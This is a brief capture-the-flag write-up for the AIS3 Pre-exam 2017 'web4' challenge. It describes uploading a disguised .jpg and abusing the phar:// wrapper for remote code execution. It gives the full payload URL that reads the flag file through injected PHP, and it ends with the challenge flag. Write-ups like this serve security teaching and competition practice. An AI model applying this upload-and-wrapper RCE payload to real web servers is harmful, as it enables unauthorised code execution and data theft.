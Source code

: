 # AIS3 Pre-exam 2017: web4

![web4](web4.png)

## Solution
Continue from web3...
Use the same approach to get the uploaddddddd.php source code.
It let us upload only .jpg file, but with this we can upload a file to perform RCE.
However, this time "zip" wrapper is unregistered, but luckily "phar" wrapper still work.

Reference: https://github.com/pwning/public-writeup/blob/master/codegate2015/web200-owlur/writeup.md

> Payload: https://quiz.ais3.org:23545/?p=phar://./images/140.112.211.129/NakYkPcee.jpg/z&code=echo%20file_get_contents(%27the_flag2_which_the_filename_you_can_not_guess_without_getting_the_shellllllll1l%27);

Flag:
>AIS3{RCEEEEEEEEE_is_soooooooooo_funnnnnnnnnnnn!?!!?!!!}


